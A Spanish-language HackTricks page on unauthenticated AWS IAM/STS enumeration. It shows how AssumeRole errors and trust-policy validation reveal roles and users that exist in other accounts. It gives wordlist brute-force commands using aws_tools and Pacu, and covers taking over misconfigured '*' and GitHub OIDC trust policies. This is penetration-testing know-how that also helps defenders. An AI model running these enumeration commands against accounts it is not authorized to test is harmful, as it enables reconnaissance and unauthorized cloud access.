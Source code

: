 # AWS - IAM & STS Enumeración No Autenticada

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Enumerar Roles y Nombres de Usuario en una cuenta

### ~~Fuerza Bruta para Asumir Rol~~

{% hint style="danger" %}
**Esta técnica ya no funciona** ya que si el rol existe o no, siempre obtienes este error:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Puedes **probar esto ejecutando**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Intentar **asumir un rol sin los permisos necesarios** desencadena un mensaje de error de AWS. Por ejemplo, si no estás autorizado, AWS podría devolver:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Este mensaje confirma la existencia del rol, pero indica que su política de asunción de rol no permite su asunción. En contraste, intentar **asumir un rol que no existe conduce a un error diferente**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesantemente, este método de **distinguir entre roles existentes y no existentes** es aplicable incluso entre diferentes cuentas de AWS. Con un ID de cuenta de AWS válido y una lista de palabras dirigida, se pueden enumerar los roles presentes en la cuenta sin enfrentar limitaciones inherentes.

Puedes usar este [script para enumerar posibles principales](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) abusando de este problema.

### Políticas de Confianza: Fuerza Bruta de roles y usuarios entre cuentas

Configurar o actualizar la **política de confianza de un rol de IAM implica definir qué recursos o servicios de AWS están permitidos para asumir ese rol** y obtener credenciales temporales. Si el recurso especificado en la política **existe**, la política de confianza se guarda **correctamente**. Sin embargo, si el recurso **no existe**, se **genera un error**, indicando que se proporcionó un principal no válido.

{% hint style="warning" %}
Ten en cuenta que en ese recurso podrías especificar un rol o usuario entre cuentas:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Este es un ejemplo de política:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Ese es el **error** que encontrarás si usas un **rol que no existe**. Si el rol **existe**, la política será **guardada** sin errores. (El error es para actualizar, pero también funciona al crear)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Puedes automatizar este proceso con [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Usando [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* El rol `admin` utilizado en el ejemplo es un **rol en tu cuenta que será suplantado** por pacu para crear las políticas que necesita crear para la enumeración

### Privesc

En el caso de que el rol esté mal configurado y permita que cualquiera lo asuma:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
El atacante podría simplemente asumirlo.

## Federación OIDC de Terceros

Imagina que logras leer un **workflow de Github Actions** que está accediendo a un **rol** dentro de **AWS**.\
Esta confianza podría dar acceso a un rol con la siguiente **política de confianza**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Esta política de confianza puede ser correcta, pero la **falta de más condiciones** debería hacerte desconfiar de ella.\
Esto se debe a que el rol anterior puede ser asumido por **CUALQUIERA de Github Actions**! Debes especificar en las condiciones también otras cosas como el nombre de la organización, el nombre del repositorio, el entorno, la rama...

Otra posible mala configuración es **agregar una condición** como la siguiente:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Note que el **comodín** (\*) antes de los **dos puntos** (:). Puedes crear una org como **org\_name1** y **asumir el rol** desde una acción de Github.

## Referencias

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
